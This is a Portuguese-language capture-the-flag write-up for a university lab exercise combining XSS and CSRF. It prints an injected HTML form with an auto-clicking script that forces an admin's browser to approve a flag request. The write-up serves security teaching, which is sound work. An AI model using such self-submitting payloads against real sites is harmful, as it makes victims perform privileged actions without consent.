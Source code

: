 # CTF6 - XSS + CSRF

## Preparação

Após entrar no link `http://ctf-fsi.fe.up.pt:5004` , reparamos que podiamos introduzir um input para pedir uma flag:

![home](Images/inicio.png)

*Imagem do início*

![tentativa1](Images/tentativa1.png)

*Imagem do server 5004*

![tentativa1v2](Images/tentativa1v2.png)

*Imagem do server 5005 (admin)*

Após analisar o código no servidor admin, reparamos que existe um from que faz um post request ao servidor admin e que tem a seguinte estrutura:

```html
<form method="POST" action="/request/abc36ceee9310230f2783b4032fc88a9f4a69d87/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
        
    </div>
</form>

```

Tendo isso em conta e o facto de não haver input sanitization no servidor, decidimos no input colocar o seguinte código:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/número_do_pedido/approve" role="form">
    <div class="submit">
        
        <input type="submit" id="giveflag" value="Give the flag" enabled>
        
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>

<!-- número do pedido vai variar de pedido a pedido, suscetivel a alterações -->
```
Após introduzir o que foi escrito anteriormente, aparece-nos uma mensagem de erro em que não temos permissões para aceder ao recurso pedido:

![erro](Images/erro.png)

Isso deve-se ao facto de nós estarmos a executar o código, pois nós não temos permissões, por isso queremos que seja só feito do lado do admin ( que tem permissões ). Para chegar a esse objetivo, desativamos a execução do javascript no browser:

![settings](Images/settings.png)

Repetindo os passos, conseguimos obter a flag (dando refresh à página):

![result](Images/result.png)

Obtemos assim a flag.
